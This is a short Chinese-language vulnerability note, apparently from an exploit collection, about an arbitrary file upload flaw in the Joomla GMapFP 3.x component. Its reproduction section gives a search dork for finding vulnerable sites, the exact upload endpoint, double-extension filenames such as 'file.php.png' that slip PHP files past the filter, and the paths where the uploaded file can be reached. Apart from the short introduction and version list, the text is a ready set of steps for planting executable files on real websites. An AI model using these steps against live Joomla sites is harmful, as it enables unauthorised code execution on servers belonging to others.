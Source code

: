 # Joomla component GMapFP 3.30 任意文件上传

### 一、漏洞简介

关键字:`inurl:''com_gmapfp''`

### 二、漏洞影响

Joomla Gmapfp Components 3.x

### 三、复现过程

`http://url/index.php?option=comgmapfp&controller=editlieux&tmpl=component&task=upload_image`


```bash
file.php.png , file2.php.jpeg , file3.html.jpg ,file3.txt.jpg
```

目录文件路径

`http://url/images/gmapfp/file.php`

`http://url/images/gmapfp/file.php.png`